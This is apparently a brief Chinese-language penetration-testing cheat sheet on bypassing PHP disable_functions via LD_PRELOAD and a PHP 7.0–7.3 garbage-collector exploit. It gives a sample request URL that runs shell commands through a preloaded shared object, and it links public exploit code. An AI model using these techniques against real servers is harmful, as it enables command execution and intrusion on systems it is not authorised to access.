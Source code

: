 #### LD_PRELOAD
	linux环境
	putenv()、mail()可用
	https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD
	http://192.168.0.107/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so
	outpath是命令输出位置，sopath指定so文件路径。
	或
	替换php文件中的mail为error_log("a",1);
#### php7.0-7.3 bypass
	直接bypass
	https://raw.githubusercontent.com/mm0r1/exploits/master/php7-gc-bypass/exploit.php